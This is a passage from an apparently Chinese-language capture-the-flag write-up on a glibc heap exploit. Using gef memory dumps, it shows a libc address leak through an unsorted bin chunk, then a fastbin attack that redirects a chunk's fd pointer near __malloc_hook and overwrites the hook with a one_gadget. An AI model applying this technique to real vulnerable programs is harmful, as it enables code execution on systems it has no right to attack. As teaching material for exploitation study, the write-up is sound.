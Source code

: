 ```c
gef➤  x/32gx 0x564dfc7d0010-0x10
0x564dfc7d0000:	0x0000000000000000	0x0000000000000031 => chunk 0
0x564dfc7d0010:	0x6161616161616161	0x6161616161616161
0x564dfc7d0020:	0x6161616161616161	0x6161616161616161
0x564dfc7d0030:	0x6161616161616161	0x0000000000000171 => chunk 1 
0x564dfc7d0040:	0x00007f07be783b78	0x00007f07be783b78
....
0x564dfc7d0130:	0x0000000000000100	0x0000000000000070 => chunk 2
0x564dfc7d0140:	0x6161616161616161	0x6161616161616161
0x564dfc7d0150:	0x6161616161616161	0x6161616161616161
0x564dfc7d0190:	0x6161616161616161	0x6161616161616161
0x564dfc7d01a0:	0x0000000000000170	0x0000000000000070 => chunk 3 header
0x564dfc7d01b0:	0x6161616161616161	0x6161616161616161
0x564dfc7d01f0:	0x6161616161616161	0x6161616161616161
```
添加后：

`unsorted bin `剩下一个 `chunk`,大小为 `0x70`，其实也就是 `chunk 2`
```c
[+] unsorted_bins[0]: fw=0x564dfc7d0130, bk=0x564dfc7d0130
 →   Chunk(addr=0x564dfc7d0140, size=0x70, flags=PREV_INUSE)
```
我们来看一下 `chunk 2` 内容,确实写入了 `fd,bk` 输出就可以的到地址了
```c
0x564dfc7d0130:	0x6161616161616161	0x0000000000000071
0x564dfc7d0140:	0x00007f07be783b78	0x00007f07be783b78
0x564dfc7d0150:	0x6161616161616161	0x6161616161616161
0x564dfc7d0160:	0x6161616161616161	0x6161616161616161
0x564dfc7d0170:	0x6161616161616161	0x6161616161616161
```

#### fastbin attack
接下来 `malloc` 一个 `0x60` 的 `chunk`，就会将 `unsorted bin` 中 `0x70` 的 `chunk` 分配出去，也就是` chunk 2`。所以 `chunk 2` 和 `chunk 5` 是指向同一个地方的。  
再来 `delete 3` ;`delete 2`
就会把这两块都放入 `fastbin`
```c
Fastbins[idx=5, size=0x60]  ←  Chunk(addr=0x564dfc7d0140, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0x564dfc7d01b0, size=0x70, flags=PREV_INUSE) 
```
再通过` edit chunk 5`,修改 `chunk 2` 的 `fd` 指向` malloc_hook` 附近。修改前 `fd` 是指向 `chunk 3`。
修改前：
```c
gef➤  x/16gx 0x564dfc7d0140-0x10
0x564dfc7d0130:	0x6161616161616161	0x0000000000000071 => chunk 2 header 
0x564dfc7d0140:	0x0000564dfc7d01a0	0x6161616161616161 => fd-> chunk 3
0x564dfc7d0150:	0x6161616161616161	0x6161616161616161
gef➤  x/16gx 0x0000564dfc7d01a0
0x564dfc7d01a0:	0x0000000000000070	0x0000000000000071 => chunk 3 header 
0x564dfc7d01b0:	0x0000000000000000	0x6161616161616161 => fd -> null
```
修改后：
```c
gef➤  x/16gx 0x564dfc7d0140-0x10
0x564dfc7d0130:	0x6161616161616161	0x0000000000000071 => chunk 2 headr 
0x564dfc7d0140:	0x00007f07be783afd	0x6161616161616161 => malloc hook 附近
0x564dfc7d0150:	0x6161616161616161	0x6161616161616161
```
接下来我们 `malloc` 一个 `0x60 chunk`,首先会将 `chunk 2` 分配出去。再 `malloc` 一次，就分配到了` malloc_hook` 附近的 `fake chunk`
我们通过 `edit` 往 `fake chunk `中写数据，也就是修改 `malloc_hook` 为 `one_gadget`
```c
gef➤  x/16gx 0x00007f07be783afd
0x7f07be783afd:	0x07be444e20000000	0x07be444a0000007f => fake chunk header 
0x7f07be783b0d <__realloc_hook+5>:	0x07be4af2a4616161	0x000000000a00007f => data
0x7f07be783b1d:	0x0000000000000000	0x0000000000000000
```